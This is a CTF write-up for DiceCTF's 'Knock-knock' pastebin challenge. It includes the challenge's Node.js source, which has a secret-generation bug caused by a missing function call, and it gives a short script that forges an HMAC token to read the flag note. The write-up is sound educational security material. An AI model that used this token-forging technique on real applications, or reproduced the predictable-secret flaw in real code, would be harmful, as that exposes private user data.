

# Knock-knock
### Task source: https://github.com/Tzion0/CTF/tree/master/DiceCTF

Looking at the webpage, it is a site similar to pastebin that let us to create paste.



After clicking the `create` button, it will redirect us to a page with an unique token that contains our paste:

```
https://knock-knock.mc.ax/note?id=2249&token=262fedf8ca783b2fd19c581064ab48511877fe2bff4f3ad79726c9ae8277cfd5
```

Fortunately we have source code comes with this challenge:

```
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});

```

Looking at the source code, we can determine that the value of param `id` will increase by 1 everytime someone create a paste, while the token is created by using `crypto.createHmac()` with a secret key.

It tooks me a while to actually notice where the vulnerability is. In fact, the vulnerability is hiding in this code:

```
constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
}
```

The calling of `crypto.randomUUID` missing parentheses, it actually will always return the following on recommended version of nodejs:

```
secret-function randomUUID(options) {
  if (options !== undefined)
    validateObject(options, 'options');
  const {
    disableEntropyCache = false,
  } = options || {};

  validateBoolean(disableEntropyCache, 'options.disableEntropyCache');

  return disableEntropyCache ? getUnbufferedUUID() : getBufferedUUID();
}
```
#### Note: For lower version of nodejs, it will return `undefined` instead. 

So the correct code should be `crypto.randomUUID()` to get the proper random secret. With that, I create a small script to generate URL of other paste, I assuming that the first paste `id=0` is the flag:

```
const crypt = require('crypto');
secret = `secret-${crypt.randomUUID}`;

console.log(`https://knock-knock.mc.ax/note?id=0&token=${crypt.createHmac('sha256', secret).update('0').digest('hex')}`);
```

Output:
```
https://knock-knock.mc.ax/note?id=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264
```

Flag:
```
dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}
```
